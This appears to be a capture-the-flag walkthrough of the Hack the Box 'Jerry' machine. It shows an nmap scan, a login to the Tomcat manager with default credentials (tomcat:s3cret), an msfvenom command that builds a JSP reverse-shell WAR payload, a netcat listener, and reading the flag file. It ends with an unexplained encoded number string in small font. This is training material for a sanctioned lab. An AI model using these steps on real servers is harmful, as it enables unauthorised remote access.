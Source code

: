 # Walkthrough of Jerry Machine – Hack the Box:
1. In a new terminal window, run `nmap -sC -sV 10.10.10.95`
	* `-sC`: Adds on the "default" scripts to be run which include things like "Speed", "usefulness", and "Intrusiveness". You can check them out in more detail by looking under *"default"* in the **Script Categories** section on [this website](https://nmap.org/book/nse-usage.html)
	* `-sV`: Probe open ports to determine service/version info
![image](https://user-images.githubusercontent.com/44144070/90194000-0d2d2600-dd7b-11ea-95bb-7876faf2f160.png)
2. It looks like we only have one open port (8080) and it's running a service called **Apache Tomcat/Coyote JSP engine 1.1**
3. If we do a little research we find out a few things:
	* **Apache Tomcat** is [a "pure Java" HTTP web server environment in which Java code can run](https://en.wikipedia.org/wiki/Apache_Tomcat)
	* **Coyote** [is a Connector component for Tomcat that supports the HTTP 1.1 protocol as a web server](https://en.wikipedia.org/wiki/Apache_Tomcat#Coyote)
3. Being that **Apache Tomcat** (or **Tomcat** for short) provides a web-server environment, we can actually go to the website and see it.
4. Let's check it out by going to *http://10.10.10.95:8080*
	* This URL works because we know from the portscan that **Tomcat** is an http service, so we add the *"http://"* at the beginning followed by the HTB IP address, and then the *":8080"* allows us to specify the port number. All of this works together to say we want to go to the IP address *10.10.10.95* via an *http* connection at port *8080*
1. Once we get there we can see a few things:
![image](https://user-images.githubusercontent.com/44144070/90194129-6301ce00-dd7b-11ea-9ced-6de716eaae9f.png)
1. If we explore around, most of the clickable options redirect us to help pages for how to use **Tomcat**, with the exception of the *Server Status*, *Manager App*, and *Host Manager*. If we click on any of those three we get this pop-up:
![](https://user-images.githubusercontent.com/44144070/90194521-5d58b800-dd7c-11ea-83e6-e5d31cadc18c.png)
1. So it's asking us for credentials that we don't know. Before trying to set up any complicated password breaking attacks, I find it a good idea to try at least a few of the basics. Some of these include *admin:admin*, *admin:password*, *admin:pass*, etc, (where *admin* stands for *administrator* in the hopes that with these credentials we can log into the account with the most privileges
2. If we try *admin:admin* on the *Server Status* feature it works! And we end up looking at a page like this:
![](https://user-images.githubusercontent.com/44144070/90194585-7e210d80-dd7c-11ea-841d-bdb63ee97243.png)
1. This page has a bunch of information about **Tomcat** and this particular server it's running on. Unfortunately, aside from telling us a little bit more about the server, it doesn't help us get any closer finding a vulnerability
2. Lets go back and try a different option to see if we can find something more useful. If we go back to the main page and click on *Manager App* however, we get this 403 error message (you may have also gotten a similar 401 error message earlier if you had clicked *Cancel* or exited out of the username password prompt):
	* The 401 error is a result of the website thinking we are attempting to access a page without giving credentials when we exit out of the login pop-up, and the 403 error is when we are logged in with credentials, but then try and access a page that we don't have privileges to
![](https://user-images.githubusercontent.com/44144070/90194659-985aeb80-dd7c-11ea-9e8a-7baee5498d7c.png)
1. This error message is very interesting though, if we read it, we find that it gives us instructions on how to set up a manager account, with example credentials *tomcat:s3cret*. Now what often happens is that people will follow these instructions exactly (same way you might go about changing a password for a website), however, if the service doesn't check for (or the user doesn't remember to change) the example credentials, then we may be able to use them to sign into our administrator account
1. To be able to try this new idea though, we first need to be able to get our pop-up back to retry our credentials, and as you probably noticed, **Tomcat** will only show us error messages instead. To fix this, we need to go to *Preferences* -> *Privacy & Security* -> *History* and clear our history (there should be options as to how far back you want to erase your history if you don't want to delete everything):
![](https://user-images.githubusercontent.com/44144070/90194719-bd4f5e80-dd7c-11ea-8481-5a6832331cfd.png)
	* The reason this works, is because every time we attempt to log in, the website takes our credentials, encodes them, and puts them in what's called a "header". This header is read by the website and if it matches the proper credentials, then it will allow us to access the content. If it doesn't match, then the website will react with an error message. Most browsers save our most recent credentials or headers on websites, so by clearing our history, we can clear them which allows us to try again.
4. Once we've done that, we can go back, click on *Manager App* and our pop-up is back!
5. If we try *tomcat:s3cret* it works and we get this page:
![](https://user-images.githubusercontent.com/44144070/90194758-d35d1f00-dd7c-11ea-808c-aef11f8837b5.png)
6. If we explore around a little we'll find a section called *"WAR file to deploy"*, and this is what we're going to want to look at, because chances are if we have the ability to upload something, we can make that something do what we want
![](https://user-images.githubusercontent.com/44144070/90194805-ecfe6680-dd7c-11ea-8743-f0b840a6c14c.png)
	* So what even is a WAR file?
		* A WAR (Web Application Resource) file is like a ZIP file in the sense that it is actually a collection of other files compressed together. However unlike ZIP files, WAR files are comprised solely of [JAR](https://en.wikipedia.org/wiki/JAR_(file_format)) files meant to hold resources to create a website
9. Now before we start trying to write our own WAR file, lets check if we have any tools that might have something already written
10. One way we can check is by using a program called **MsfVenom**, a payload generator for **Metasploit**
11. Since we know WAR files are a collection of JSP/Java files, lets see what payload options  **MsfVenom** has with `msfvenom -l payloads | grep java`
	* The `msfvenom -l payloads` will list all of the payloads **MsfVenom** can produce, but since there are so many we'll want to reduce our results by pipelining the results through `grep java` which filters all the results and shows us only the ones with the word "java" in it
![](https://user-images.githubusercontent.com/44144070/90194897-1ae3ab00-dd7d-11ea-8596-af7405e332d4.png)
12. Taking a look at these results, we can narrow it down by figuring out what else we want, JSP (because it's a WAR file), a reverse shell (check out the first bit of [this article](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9) to understand why), and a tcp connection (as we determined from our portscan). This leaves us with the *"java/jsp_shell_reverse_tcp"* option
13. To create our WAR file to upload to **Tomcat**, we'll run `msfvenom -p java/jsp_shell_reverse_tcp LHOST=yourHtbIp LPORT=openPort -f war > aName.war`. Now that's a big command with a lot of fill-in-the-blanks so let's break it down:
	* `msfvenom`: We are using **MsfVenom** to create our program and this calls it
	* `-p java/jsp_shell_reverse_tcp`: This indicates that we want to create a <ins>**p**</ins>ayload in *java* that will create a *JSP Reverse Shell* using a *TCP* connection
	* `LHOST=yourHtbIp`: Setting the local host by replacing "yourHtbIp" with your Hack the Box IP (can be found in the **Access** tab when signed into your HTB account)
	* `LPORT=openPort`: Setting the port to be used for the reverse shell connection
	* `-f war`: Setting the <ins>**f**</ins>ormat of the payload to be a WAR file
	* `> aName.war`: Replace "aName" with whatever you want to name your payload file
1. You'll want to run your version of the command, and after a few moments you'll get a message saying the size of the file, and if we type `ls` we can see our file!
![](https://user-images.githubusercontent.com/44144070/90195123-8d548b00-dd7d-11ea-8e9f-ab9c211396e3.png)
11. So let's go ahead and upload our WAR file to **Tomcat** by clicking *"Browse"* in the *"WAR file to deploy"* section, and once we see our file in there, click *"Deploy"*
![](https://user-images.githubusercontent.com/44144070/90195193-ad844a00-dd7d-11ea-8818-d64676277795.png)
1. If you did it right, you should see your file sorted in alphabetically with the other preexisting files:
![](https://user-images.githubusercontent.com/44144070/90195220-bbd26600-dd7d-11ea-9d35-9c0a13684bc1.png)
2. Before we do anything with it though, since we learned a Reverse Shell relies on a "listener" running on our device for our victim to connect to with a shell, we need to set up a listener with `nc -lvnp yourLPORT`
	* `-lvnp` is short for `-l -v -n -p` and specifies four things:
		* `-l`: Listen for incoming traffic
		* `-v`: Be verbose (give details of what is going on in the process)
		* `-n`: No DNS lookups are required (it saves time and makes the command simpler)
		* `-p`: Specifies a specific port to be listening on (which is why you need to put an open port after to be listening on)
12. Once we do that, we should get this response showing that our "listener" is ready
![](https://user-images.githubusercontent.com/44144070/90195262-d86e9e00-dd7d-11ea-8a05-c4e79114cbe1.png)
13. Let's go ahead and activate our WAR file by clicking on it in **Tomcat**, and if we check our listener, we have a shell!
![](https://user-images.githubusercontent.com/44144070/90195317-f50ad600-dd7d-11ea-89fa-bb44e930cd29.png)
1. Since we're in a new shell, we'll want to check out the *help* page to see what the commands are by running `help`
![](https://user-images.githubusercontent.com/44144070/90195340-0522b580-dd7e-11ea-935d-8235bb2c27dc.png)
14. We can see all of the commands and what they do in this shell, the main ones that concern us will be that the command `dir` replaces `ls` and `cat` is replaced with `type`
15. If we navigate around using these commands, we'll find a file in *Users/Administrator/Desktop/flags* called *"2 for the price of 1.txt"*
![](https://user-images.githubusercontent.com/44144070/90195404-25eb0b00-dd7e-11ea-9184-ac1fbf931ffc.png)
16. If we run `type "2 for the price of 1.txt"`, then we can see our user and root hashes and enter them to get our points!


## Resources
- [Official Jerry Writeup from Hack the Box](https://www.hackthebox.eu/home/machines/writeup/144)
- [Jerry Video Tutorial from IppSec](https://youtu.be/PJeBIey8gc4)
- [Jerry Write-Up by 0xRick](https://0xrick.github.io/hack-the-box/jerry/)
- [`nmap` Command Help](https://nmap.org/book/man-briefoptions.html)
- [Information on Apache Tomcat](https://en.wikipedia.org/wiki/Apache_Tomcat)
- [Information on NetCat Commands](https://www.varonis.com/blog/netcat-commands/)
- [Information on WAR files](https://en.wikipedia.org/wiki/WAR_(file_format))


###### <font size="1">78 97 39 77 104 111 105 39 67 104 98 32 116 39 111 98 102 99 39 116 119 107 110 115 116 39 104 119 98 105 39 102 105 99 39 102 39 82 65 72 39 116 111 104 114 107 99 39 97 107 126 39 104 114 115 43 39 78 39 112 102 105 115 39 126 104 114 39 115 104 39 111 102 113 98 39 98 127 119 98 100 115 98 99 39 110 115</font>